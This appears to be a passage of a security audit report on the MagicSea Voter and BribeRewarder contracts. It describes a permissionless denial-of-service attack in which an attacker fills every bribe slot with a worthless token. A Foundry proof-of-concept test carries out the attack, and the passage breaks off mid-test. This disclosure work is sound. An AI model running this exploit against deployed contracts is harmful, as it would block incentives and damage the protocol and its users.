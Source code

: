 Constants.MAX_BRIBES_PER_POOL is equal to 5. This means that each pool can be associated with a maximum of 5 instances of the BribeRewarder.sol contract for each voting period. The problem is that adding BribeRewarder.sol contract instances for a pool for a certain voting period is permissionless. There is no whitelist for the tokens that can be used as reward tokens in the BribeRewarder.sol contract or a minimum amount of rewards that have to be distributed per each voting period. A malicious actor can just deploy an ERC20 token on the network, that have absolutely no dollar value, mint as many tokens as he wants and then deploy 5 instance of the BribeRewarder.sol contract by calling the createBribeRewarder() function in the RewarderFactory.sol contract. After that he can either call fundAndBribe() function or the bribe() function in order to associate the above mentioned BribeRewarder.sol contract instances for a specific pool and voting period. A malicious actor can specify as many voting periods as he want. _periodDuration is set to 1209600 seconds = 2 weeks on Voter.sol initialization. If a malicious actor sets BribeRewarder.sol contract instances for 100 voting periods, that means 200 weeks or almost 4 years, no other BribeRewarder.sol contract instance can be added during this period. When real rewards can't be used as incentives for users, nobody will vote for a specific pool. A malicious actor can dos all pools that can potentially be added for example by tracking what new pools are created at the MagicSea exchange and then immediately performing the above specified steps, thus making the entire Voter.sol and BribeRewarders.sol contracts obsolete, as their main purpose is to incentivize users to vote for specific pools and reward them with tokens for their vote. Or a malicious actor can dos specific projects that are direct competitors of his project, thus more people will provide liquidity for an AMM he is bribing users for, this way he can also provide much less rewards and still his pool will be the most lucrative one.

## Vulnerability Detail
After following the steps in the above mentioned gist add the following test to the AuditorTests.t.sol file:
```solidity
    function test_BrickRewardBribers() public {
        vm.startPrank(attacker);
        customNoValueToken.mint(attacker, 500_000e18);
        BribeRewarder rewarder = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(customNoValueToken, pool))));
        customNoValueToken.approve(address(rewarder), type(uint256).max);
        rewarder.fundAndBribe(1, 100, 100e18);

        BribeRewarder rewarder1 = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(customNoValueToken, pool))));
        customNoValueToken.approve(address(rewarder1), type(uint256).max);
        rewarder1.fundAndBribe(1, 100, 100e18);

        BribeRewarder rewarder2 = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(customNoValueToken, pool))));
        customNoValueToken.approve(address(rewarder2), type(uint256).max);
        rewarder2.fundAndBribe(1, 100, 100e18);

        BribeRewarder rewarder3 = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(customNoValueToken, pool))));
        customNoValueToken.approve(address(rewarder3), type(uint256).max);
        rewarder3.fundAndBribe(1, 100, 100e18);

        BribeRewarder rewarder4 = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(customNoValueToken, pool))));
        customNoValueToken.approve(address(rewarder4), type(uint256).max);
        rewarder4.fundAndBribe(1, 100, 100e18);
        vm.stopPrank();

        vm.startPrank(tom);
        BribeRewarder rewarderReal = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(bribeRewardToken, pool))));
        bribeRewardToken.mint(tom, 100_000e6);
        bribeRewardToken.approve(address(rewarderReal), type(uint256).max);
        customNoValueToken.approve(address(rewarderReal), type(uint256).max);
        vm.expectRevert(bytes("too much bribes"));
        rewarderReal.fundAndBribe(2, 6, 20_000e6);
```